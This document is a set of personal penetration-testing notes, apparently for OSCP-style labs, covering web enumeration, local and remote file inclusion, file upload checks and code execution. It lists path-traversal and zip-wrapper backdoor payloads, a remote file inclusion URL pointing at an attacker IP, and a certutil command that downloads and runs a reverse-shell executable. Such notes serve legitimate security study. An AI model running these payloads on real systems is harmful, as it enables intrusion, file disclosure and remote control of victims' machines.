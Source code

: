 - [Checklist](#checklist)
- [Default Webroot](#default-webroot)
- [Local File Inclusion](#local-file-inclusion)
- [Remote File Inclusion](#remote-file-inclusion)
- [Curl](#curl)
- [View Source Code](#view-source-code)
- [Gobuster](#gobuster)
- [Feroxbuster](#feroxbuster)
- [File Upload Vulnerability](#file-upload-vulnerability)
- [Java Code Execution](#java-code-execution)

# Checklist
- [ ] NMAP scripts
  -  nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190
- [ ] curl -IL https://www.inlanefreight.com
- [ ] whatweb 10.10.10.121
- [ ] View Source Code
- [ ] Gobuster
  - admin portal?
  - file upload vuln?
  - plugin page?
- [ ] wfuzz
- [ ] Check README
- [ ] DNS enumeration
- [ ] Authentication: cewl -d 2 -m 4 http://10.129.200.170/nibbleblog/
- [ ] File upload vulnerability
- [ ] Discover webroot
- [ ] Robots.txt
- [ ] Local File Inclusion
- [ ] Remote File Inclusion
- [ ] SQLi



# Default Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```


# Local File Inclusion
- Click stuff to find out if we can find this ?file=, ?page=
- We could also utilize zip://, file:// php://
  - ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

![image](https://github.com/nuricheun/OSCP/assets/14031269/c80aca68-e70d-42e5-a1ca-dd124e75324f)

**Windows**
- ?page=C:/Windows/System32/drivers/etc/hosts
- ?page=../../../../../../../../Windows/System32/drivers/etc/hosts
- ?file=zip://uploads/upload_xkxkxk.zip%23simple-backdoor&cmd=whoami

**Linux**


# Remote File Inclusion
- ?page=http://192.168.45.208/somefile.php


# Curl 
- When there are URLs pointing at something suspicious, change method (from GET to POST) with curl can give you clear answers
```bash
curl -X POST -d '{"user":"clumsyadmin", "url":"http://192.168.45.175:443/list-running-procs"}' http://192.168.163.99:33333/list-running-procs
```


# File Upload Vulnerability
```bash
# always check root after uploading something
http://example.com/uploadedsomething.txt
http://example.com/upload/uploadedsomething.txt
http://example.com/uploads/uploadedsomething.txt


```


# Java Code Execution (C:/Windows/Temp/)
```bash
certutil -urlcache -f http://192.168.45.176/rev80.exe C:/Windows/Temp/rev80.exe
C:/Windows/Temp/rev80.exe
```
